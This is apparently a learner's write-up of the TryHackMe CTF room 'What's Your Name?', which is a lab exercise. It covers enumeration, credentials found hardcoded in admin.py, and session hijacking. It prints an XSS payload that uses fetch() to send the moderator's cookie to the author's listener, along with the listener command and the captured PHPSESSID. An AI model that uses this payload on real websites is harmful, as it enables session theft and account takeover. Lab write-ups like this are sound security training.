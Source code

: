 !!! Due to the single name “project”, some repositories have swapped images!!! 

Project: What's Your Name? — XSS and Session Hijacking
Project Goal:
The goal of this project was to complete the TryHackMe CTF room "What's Your Name?". The main objective was to identify an XSS vulnerability and use it to hijack the moderator's session cookie in order to access restricted sections of the website and retrieve both flags.
Project Description:
I completed this task on the TryHackMe platform.
Target machine IP: 10.10.137.153,
My attacking machine IP: 10.10.62.23.

Initial Reconnaissance:
I started by adding the domains worldwap.thm and login.worldwap.thm to the /etc/hosts file.
Then, using Gobuster, I performed directory enumeration which revealed interesting paths such as /admin.py, /phpmyadmin, /index.php, and /profile.php.

Credential Discovery:
While reviewing the admin.py file, I discovered hardcoded credentials:

username = 'admin'
password = 'Un6u3$$4Bl3!!'
Using these credentials, I successfully logged into the application at http://login.worldwap.thm/login.php.

XSS Attack:
After logging in, I explored the profile.php page and identified an input field vulnerable to XSS.
I injected the following payload:

<img src=x onerror="fetch('http://10.10.62.23:8080/?c='+document.cookie)">
Before this, I started a simple Python HTTP server:

sudo python3 -m http.server 8080
Session Cookie Hijacking:
Within a few seconds, my terminal displayed a request containing the moderator’s session cookie:

GET /?c=PHPSESSID=pu36b3affituhi76ek7agopcij
I copied this cookie and replaced my own via the browser's DevTools.

Access to Moderator Panel and Flag Retrieval:
After replacing the cookie, I gained access to the moderator panel and successfully captured the second flag.

Conclusion:
This project demonstrated the critical importance of testing web applications for XSS vulnerabilities and the risks associated with poorly secured session handling.
I not only practiced web enumeration and analysis, but also executed a full session hijacking attack. This challenge strengthened my understanding of OWASP-level vulnerabilities and showcased how easily a system can be compromised without proper data protection.

